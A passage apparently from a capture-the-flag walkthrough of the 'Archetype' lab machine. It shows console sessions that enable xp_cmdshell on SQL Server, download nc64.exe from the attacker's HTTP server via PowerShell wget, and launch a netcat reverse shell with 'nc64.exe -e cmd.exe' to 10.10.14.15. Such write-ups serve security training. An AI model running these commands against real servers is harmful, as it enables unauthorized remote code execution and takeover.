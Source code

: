 ```console
-----------------------------------   -----------   -----------   ------------   -----------   

access check cache bucket count                 0         65536              0             0   

access check cache quota                        0    2147483647              0             0   

Ad Hoc Distributed Queries                      0             1              0             0   

affinity I/O mask                     -2147483648    2147483647              0             0   

affinity mask                         -2147483648    2147483647              0             0
(...)

SQL> EXEC sp_configure 'xp_cmdshell', 1;
[*] INFO(ARCHETYPE): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE;
SQL> xp_cmdshell "whoami"
output                                                                             

--------------------------------------------------------------------------------   

archetype\sql_svc                                                                  

SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.15:81/nc64.exe -outfile nc64.exe"
output                                                                             

--------------------------------------------------------------------------------   
```

Now we can see the files being requested on our HTTP server.

```console
┌──(kali㉿kali)-[~/Downloads]
└─$ sudo python3 -m http.server 81
Serving HTTP on 0.0.0.0 port 81 (http://0.0.0.0:81/) ...
10.129.156.236 - - [13/Apr/2022 12:00:18] "GET /nc64.exe HTTP/1.1" 200 -
```

Now, we just need to run `nc64.exe` in order to establish a connection via netcat.

```
SQL> xp_cmdshell "powershell -c ls C:\Users\sql_svc\Downloads"
output                                                                             

--------------------------------------------------------------------------------

    Directory: C:\Users\sql_svc\Downloads                                          

Mode                LastWriteTime         Length Name                                                                     

----                -------------         ------ ----                                                                     

-a----        4/13/2022   9:00 AM          45272 nc64.exe

SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.14.15 444"
```
